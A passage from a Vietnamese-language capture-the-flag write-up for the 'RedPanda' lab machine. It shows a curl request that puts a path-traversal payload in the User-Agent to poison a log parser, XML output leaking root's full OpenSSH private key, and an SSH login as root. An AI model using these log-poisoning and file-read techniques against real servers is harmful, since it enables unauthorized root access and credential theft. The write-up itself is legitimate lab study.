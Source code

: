 Cũng với file *App.java*, tôi nhận thấy cách User-Agent được xử lý:

```python
 public static Map parseLog(String line) {
        String[] strings = line.split("\\|\\|");
        Map map = new HashMap<>();
        map.put("status_code", Integer.parseInt(strings[0]));
        map.put("ip", strings[1]);
        map.put("user_agent", strings[2]);
        map.put("uri", strings[3]);
        
        return map;
    }
```

Tôi sẽ sử dụng 1 lệnh `curl` để gửi 1 request lên server với User-Agent đã được sửa đổi thành đường dẫn đến ảnh tôi đã lên phía trên. Và khi nó thực thi, nó sẽ trả về cho tôi private key của user *root*

```python
┌──(neo㉿kali)-[~]
└─$ curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/user.jpg"
```

Chờ 1 chút để server xử lý và mở lại file xml vừa tạo.

```python
woodenk@redpanda:~$ cat privesc_creds.xml 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace>
<credits>
  <author>damian</author>
  <image>
    <uri>/../../../../../../../home/woodenk/user.jpg</uri>
    <views>3</views>
    <foo>-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----</foo>
  </image>
  <totalviews>4</totalviews>
</credits>
woodenk@redpanda:~$ 
```

Lưu private key này về và login ssh

```python
┌──(neo㉿kali)-[~]
└─$ ssh -i id_rsa root@10.10.11.170                                       
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-121-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 03 Nov 2022 03:19:59 AM UTC

  System load:           0.0
  Usage of /:            82.9% of 4.30GB
  Memory usage:          59%
  Swap usage:            0%
  Processes:             226
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.170
```